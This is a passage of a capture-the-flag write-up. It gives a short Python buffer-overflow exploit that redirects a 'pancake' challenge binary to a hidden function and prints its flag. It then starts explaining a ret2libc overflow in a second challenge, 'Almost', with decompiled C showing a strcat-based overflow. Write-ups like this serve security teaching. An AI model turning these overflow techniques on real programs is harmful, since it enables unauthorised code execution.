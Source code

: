 The exploit:-

```py
from roppy import *

elf = ELF("pancake")
p = process("./binary")

payload = b"A"*152
payload += p64(elf.function('secret_recipe'))
p.sendline(payload)

# FLAG:  flag{too_many_pancakes_on_the_stack}

p.interactive()
```

# Almost

This challenge was simple ret2libc attack and the binary used strcat to add 3 different buffer to single buffer which made it suspectible to buffer overflow as the 3 different buffer will be able to overflow the buffer `s` where all of those were being concatenated. Although, giving large buffer to all 3 different inputs will result in segfault in internal `strcat` function of LIBC.

```C
int build()
{
  char src; // [esp+0h] [ebp-1C8h]
  char v2; // [esp+40h] [ebp-188h]
  char v3; // [esp+80h] [ebp-148h]
  char s[264]; // [esp+C0h] [ebp-108h]

  memset(s, 0, 0x100u);
  puts("Insert the protocol:");
  getInput(&src);
  puts("Insert the domain:");
  getInput(&v2);
  puts("Insert the path:");
  getInput(&v3);
  strcat(s, &src);
  *(_DWORD *)&s[strlen(s)] = 3092282;
  strcat(s, &v2);
  *(_WORD *)&s[strlen(s)] = 47;
  strcat(s, &v3);
  puts("Result:");
  return puts(s);
}
```

Here, we see that memset fills the variable `s` with `0` and then takes input via `getInput` which is a custom read function which takes upto 64 bytes with the `getchar` and then checks if the number of input is more than 64. When we send 64 bytes to first and second buffer and send 63 bytes we get segfault and control over EIP.
